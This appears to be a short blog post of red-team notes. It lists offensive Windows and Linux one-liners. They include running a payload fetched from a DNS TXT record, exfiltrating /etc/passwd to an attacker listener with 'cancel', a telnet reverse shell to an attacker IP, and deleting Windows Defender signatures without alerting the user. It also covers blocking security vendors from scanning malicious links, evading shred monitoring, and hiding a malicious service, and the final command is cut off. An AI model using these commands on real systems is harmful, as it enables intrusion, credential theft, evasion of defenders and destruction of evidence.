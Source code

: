 ```yaml
---
layout: post
title:  "Red Team quick detection notes"
date:   2020-09-20 16:46:24 +0200
categories: [redteam, R&D, usecases]
---
```


# Windows

## Malicious Payload in DNS Txt
Attacker can put malicious payload in DNS TXT record content of domain. So, watch out for:

```bash
powershell . (nslookup -q=txt some.domain.com)[-1]
```


---
## Curl with cancel
Except curl, wget and nc commands, attacker can use ‘cancel’ to exfiltrate data 

```bash
Attacker machine:
nc -nlvp 18110 

Victim machine:
cancel -u "$(cat /etc/passwd | base64)" -h <ip>:<port>
```

---

---

## RCE without python Bash 
After successful RCE inside container, but the container doesn't have BASH, Netcat, Python, or any of your normal revshell helpers, attacker can also use telnet

```bash
mkfifo /tmp/cth; sh -i 2>&1 </tmp/cth | telnet <atkIP> 8443 >/tmp/cth; rm /tmp/cth
```

---

---
## Explorer.exe for code Execution
Example: using explorer.exe for code execution

```powershell

explorer.exe /root,"C:\Windows\System32\calc.exe"
```
<!-- ![](assets/img/red-teams-notes/process-monitor-1.png)
![](assets/img/red-teams-notes/process-monitor-2.png)
![](assets/img/red-teams-notes/process-monitor-3.png)
-->
---

## Windows Defender signature removoal  
A bit messy, but if Windows Defender is causing you a big headache, rather than disabling it (which alerts the user), you should just neuter it by deleting all the signatures:

```powershell
"%Program Files%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

---

---

Red Teamers: those pesky security vendors--like VirusTotal, PaloAlto, and Fortinet--will poke at your infrastructure and evaluate your malicious links, potentially flagging them. Use this .htaccess file to block the common ones outright: https://gist.github.com/curi0usJack/971385e8334e189d93a6cb4671238b10

---

---
## Delete file with shred
Just deleting files is not enough. To really remove them, use shred.

```bash
shred -z cthulhu.txt
```

If shred command is in monitoring for generating alert, the shred command may be caught, you can do this:

```bash
FN=cthulhu.txt; dd bs=1k count="du -sk \\"${FN}\\" | cut -f1" if=/dev/urandom >"${FN}"; rm -f "${FN}"
```

---

---
## Hiding Windows services
This is a really nasty tip: Windows' sc.exe allows you to manually assign service permissions with SDDL syntax. This allows you to essentially make your service invisible unless defenders already know the service name.

Services.exe, Get-Service, sc.exe, all of these fail.

Hiding Windows services:

```powershell
sc sdset evilsvc "D:(D;;DCLCWPDTSD;;;IU)(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLO
```